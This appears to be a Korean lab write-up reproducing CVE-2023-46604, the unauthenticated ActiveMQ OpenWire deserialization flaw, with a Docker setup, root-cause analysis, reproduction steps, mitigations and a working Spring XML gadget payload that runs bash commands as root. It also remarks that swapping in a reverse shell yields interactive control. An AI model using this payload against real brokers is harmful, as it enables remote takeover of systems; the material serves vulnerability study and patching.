





# ActiveMQ CVE-2023-46604 — OpenWire 역직렬화 원격 코드 실행(RCE)

```
    _        _   _           __  __  ___        ____   ____ _____
   / \   ___| |_(_)_   _____|  \/  |/ _ \      |  _ \ / ___| ____|
  / _ \ / __| __| \ \ / / _ \ |\/| | | | |_____| |_) | |   |  _|
 / ___ \ (__| |_| |\ V /  __/ |  | | |_| |_____|  _ <| |___| |___
/_/   \_\___|\__|_| \_/ \___|_|  |_|\__\_\     |_| \_\\____|_____|
```

| 항목 | 값 |
|---|---|
| CVE | CVE-2023-46604 |
| 대상 | Apache ActiveMQ Classic 5.18.0 |
| 유형 | OpenWire 프로토콜 역직렬화 → 원격 코드 실행(RCE) |
| 인증 | 불필요 (unauthenticated) |
| **Risk Score** | **9.8 ~ 10.0 (Critical)** — `AV:N/AC:L/PR:N/UI:N/S:C/C:L/I:H/A:H` |
| **Reproducibility** | 단일 `docker compose up --build`로 자립 구성 (외부 이미지 비의존) |

---

## 취약점 요약

Apache ActiveMQ는 자바로 작성된 오픈소스 메시지 브로커로, 시스템 간 통신에 널리 쓰인다. CVE-2023-46604는 ActiveMQ가 사용하는 **OpenWire 프로토콜(기본 포트 61616)의 역직렬화 과정**에서 발생하는 원격 코드 실행 취약점이다.

브로커가 들어온 OpenWire 패킷을 역직렬화할 때, 패킷에 담긴 **클래스 이름을 검증 없이 그대로 신뢰**하여 해당 클래스의 객체를 생성한다. 공격자는 이 지점을 악용해 스프링 프레임워크의 `ClassPathXmlApplicationContext`를 임의로 인스턴스화하고, 원격 XML을 로드시켜 임의 OS 명령을 실행한다. 인증이 필요 없고 원격에서 패킷 한 번으로 성립하기 때문에 위험도가 매우 높다.

> 참고: CVSS 3.1 점수는 스코프(Scope) 해석에 따라 벤더별로 **10.0(S:C)** 또는 **9.8(S:U)**로 표기된다. 공개 직후 HelloKitty·TellYouThePass 랜섬웨어, Kinsing 크립토마이너 등에 실제로 악용되었으며 CISA KEV(알려진 악용 취약점) 목록에 등재되었다.

## 환경 구성

취약 환경은 **컨테이너 2개**로 구성되며, 하나의 `docker compose`로 완결된다. 취약 버전 바이너리를 **공식 Apache 아카이브에서 직접 내려받아 빌드**한다.

### 디렉터리 구조

```
ActiveMQ/CVE-2023-46604/
├── Dockerfile
├── docker-compose.yml
├── flag.txt            # 확인용 flag
├── www/
│   └── poc.xml         # 악성 Spring XML 페이로드
│   └── poc.py          # 조작된 OpenWire 메시지 전송
└── output/             # RCE 증거 파일이 나타나는 볼륨
    └── .gitkeep
```

### 서비스 구성

| 서비스 | 이미지 | 역할 |
|---|---|---|
| `activemq` | 로컬 빌드 (ActiveMQ 5.18.0) | 취약 브로커. 61616(OpenWire) 노출 |
| `payload` | `nginx:1.27-alpine` | `www/poc.xml`을 내부 네트워크에 서빙 |

두 서비스는 `labnet` 네트워크로 묶여 있어, 브로커가 **내부 DNS 이름 `http://payload/poc.xml`**로 페이로드를 가져온다. 호스트 IP나 `host.docker.internal` 같은 환경 의존적 값을 쓰지 않으므로, 어느 OS·머신에서 빌드해도 도달성이 동일하게 보장된다.

### 실행 방법

다음 명령을 실행하여 취약한 환경을 구축한다. 호스트에는 **Docker와 docker compose만** 있으면 되며, 자바·ActiveMQ·nginx 등은 모두 컨테이너 안에 포함된다. (첫 빌드 시 아카이브·베이스 이미지 다운로드를 위해 네트워크 연결이 필요하다.)

```
docker compose up -d --build
```

해당 환경은 두 개의 컨테이너로 구성된다. `activemq`는 취약 브로커로 **61616(OpenWire)**과 8161(웹 콘솔)을 수신하며, `payload`는 악성 XML을 내부 네트워크에 서빙하는 nginx이다. 이 취약점은 웹 콘솔(8161)이 아니라 **OpenWire(61616)**에서 발생한다.

환경이 정상적으로 기동되었는지 로그로 확인할 수 있다.

```
docker compose ps
docker compose logs activemq | grep -i "openwire started"
```


## 취약 조건

- **취약 버전**: ActiveMQ Classic 5.18.3 미만(본 랩은 5.18.0). 그 외 5.17.6·5.16.7·5.15.16 미만 브랜치도 해당.
- **노출 조건**: OpenWire 트랜스포트 커넥터(61616)가 기본 활성화되어 있고 네트워크에 노출됨. 인증 불필요.
- **근본 원인**: `BaseDataStreamMarshaller`가 `ExceptionResponse`를 언마셜링할 때 throwable 클래스 타입을 검증하지 않고 임의 클래스를 인스턴스화(`createThrowable`).
- **RCE 성립 조건**: 취약점 자체는 "임의 클래스 인스턴스화"까지만 제공한다. 실제 명령 실행은 클래스패스에 존재하는 스프링의 `ClassPathXmlApplicationContext`(생성자에 URL을 받아 원격 XML을 로드) + 원격 XML 내부의 `ProcessBuilder` 빈이라는 **gadget chain**으로 완성된다.

## 취약점 분석


문제가 되는 코드 수정본

OpenWireUtil.validateIsThrowable(clazz); 패치된 코드
만약 이 코드가 없다면
1. tightUnmarsalThrowable : 패킷에서 클래스 이름 문자열(clazz)과 메시지를 그대로 읽음
2. 그걸 createThrowable에 넘김
3. createThrowable : Class.forName(className)으로 공격자가 지정한 클래스를 로드 -> String 인자 생성자를 찾아 newInstance(message)로 객체 생성
4. 취약 버전엔 타입 검증이 없어서, 예외가 아닌 ClassPathXmlApplicationContext같은 클래스도 생성 가능 -> 그 클래스가 message(=URL)의 XML을 로드 -> RCE직결

## 재현 절차

1. **환경 기동** — `docker compose up -d --build`. 로그에서 취약 버전과 OpenWire 리스닝 확인.

   ```bash
   docker compose logs activemq | grep -i "5.18.0"
   docker compose logs activemq | grep -i "openwire started"
   ```

2. **페이로드 서빙 확인** — 브로커 관점에서 XML이 접근되는지 점검(재현성 진단 포인트).

   ```bash
   docker compose exec activemq curl -s http://payload/poc.xml
   ```
   → `www/poc.xml` 내용이 그대로 출력되면 내부 통신·파일 배치 정상.

   

3. **트리거 전송** — `localhost:61616`으로 악성 OpenWire 패킷을 전송한다. 패킷에는 `org.springframework.context.support.ClassPathXmlApplicationContext`를 **`http://payload/poc.xml`** 인자로 인스턴스화하라는 지시가 담긴다. 브로커는 이 URL에서 XML을 가져와 로드하고, 내부의 `ProcessBuilder` 빈이 실행되며 명령이 수행된다.

4. **결과 검증** — 페이로드가 남긴 증거 파일을 호스트에서 확인.

   ```bash
   cat output/proof.txt
   ```

## PoC 코드

### 페이로드 XML (`www/poc.xml`)

브로커가 로드하는 스프링 설정 파일이다. 로드되는 즉시 `ProcessBuilder` 빈이 생성되며(`init-method="start"`), 실습 검증용으로 `id` 결과를 볼륨 경로 `/tmp/output/proof.txt`에 기록한다. 리버스셸이 아닌 **파일 생성 방식**을 사용해 리스너 없이도 결정론적으로 재현된다.

```xml
<?xml version="1.0" encoding="UTF-8" ?>
<beans xmlns="http://www.springframework.org/schema/beans"
    xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
    xsi:schemaLocation="
http://www.springframework.org/schema/beans
http://www.springframework.org/schema/beans/spring-beans.xsd">
    <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
        <constructor-arg>
            <list>
                <value>bash</value>
                <value>-c</value>
                <value>id(cat flag.txt, 리버스 쉘) &gt; /tmp/output/proof.txt</value>
            </list>
        </constructor-arg>
    </bean>
</beans>
```


## 실행 결과

```
$ cat output/proof.txt
uid=0(root) gid=0(root) groups=0(root) -> amq-vuln 컨테이너의 루트권한
```


```
poc.xml 내용을 cat flag.txt로 변경시(flag.txt는 amq-vuln컨테이너 내부에 존재)
$ cat output/proof.txt
```


최종적으로 실행하는 명령어를 리버스쉘로 바꾸면 대화형 조작 가능

## 7. 대응 방안

- **패치 적용(권장)**: ActiveMQ를 **5.18.3 / 5.17.6 / 5.16.7 / 5.15.16 이상**으로 업그레이드. 해당 패치(AMQ-9370)는 OpenWire 마셜러가 throwable 클래스 타입을 검증하도록 수정하여 임의 클래스 인스턴스화를 차단한다.
- **네트워크 최소 노출**: OpenWire 포트(61616)를 신뢰된 브로커/클라이언트로만 방화벽 화이트리스트. 사용하지 않는다면 OpenWire 커넥터 비활성화.
- **심층 방어**: 브로커 프로세스를 최소 권한(비 root)으로 실행, 네트워크 세그먼테이션으로 브로커 접근 범위 축소.

---

## 참고

- Apache 보안 권고: CVE-2023-46604 (AMQ-9370)
- Ahnlab : https://asec.ahnlab.com/ko/59786/
- Github : https://github.com/duck-sec/CVE-2023-46604-ActiveMQ-RCE-pseudoshell
